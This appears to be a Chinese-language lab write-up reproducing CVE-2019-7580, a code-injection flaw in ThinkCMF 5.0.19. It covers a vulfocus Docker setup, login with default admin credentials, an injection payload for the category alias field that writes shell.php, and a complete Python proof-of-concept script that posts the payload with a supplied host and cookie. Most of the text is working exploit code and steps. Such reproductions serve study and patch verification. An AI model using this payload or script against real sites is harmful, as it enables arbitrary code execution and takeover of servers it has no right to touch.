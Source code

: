 # CVE-2019-7580漏洞复现



## 1.漏洞简介

ThinkCMF 是一款支持[Swoole](https://so.csdn.net/so/search?q=Swoole&spm=1001.2101.3001.7020)的开源内容管理框架(CMF), 基于ThinkPHP开发. thinkcmf 5.0.19 这个版本后台提供路由自定义，远程攻击者攻击者可通过向 portal/admin_category/addpost.html 页面发送‘别名’参数利用该漏洞注入任意代码。



## 2.环境介绍

拉取 vulfocus 现有镜像，并运行到 80 端口。

docker-compose.yml

```yml
version: '3'
services:
  thinkcmf:
    image: vulfocus/thinkcmf-cve_2019_7580
    ports:
      - 80:80
```



## 3.复现过程

启动环境。

![image-20230727214003016](img/image-20230727214003016.png)

使用账号密码：admin/123456 登陆成功。

![image-20230727214558454](img/image-20230727214558454.png)

登陆成功后，在门户管理->分类管理->添加分类处的分类别名处添加payload .

```
1'=>array(""),file_put_contents('shell.php','<?php phpinfo();?>'),'2
```

![image-20230727224332274](img/image-20230727224332274.png)

点击添加后会在根目录下生成 shell.php .

![image-20230727225233733](img/image-20230727225233733.png)

编写poc：

```python
import requests
import sys


def send_request(host, cookie):
    url = f"http://{host}/portal/admin_category/addpost.html"
    headers = {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Origin": f"http://{host}",
        "Referer": f"http://{host}/portal/admin_category/add.html",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Cookie": cookie,
        "Connection": "close"
    }

    payload = {
        "parent_id": "0",
        "name": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "alias": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "description": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "more[thumbnail]": "",
        "seo_title": "",
        "seo_keywords": "",
        "seo_description": "",
        "list_tpl": "list",
        "one_tpl": "article"
    }

    response = requests.post(url, headers=headers, data=payload)
    shell = f"http://{host}/shell.php"
    if "添加成功" in response.text and response.status_code == 200:
        print(f"phpinfo()已写入shell.php，地址为{shell}")
    else:
        print("phpinfo()写入失败")


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage: python poc.py host cookie")
    else:
        host = sys.argv[1]
        cookie = sys.argv[2]
        send_request(host, cookie)
```

脚本中需要 host 和 cookie 两个参数，下图可快速获取 cookie，cookie 中只需要图中三个参数。

![image-20230727235551350](img/image-20230727235551350.png)

执行脚本。

![image-20230728000106793](img/image-20230728000106793.png)

再次成功写入

![image-20230727234147078](img/image-20230727234147078.png)
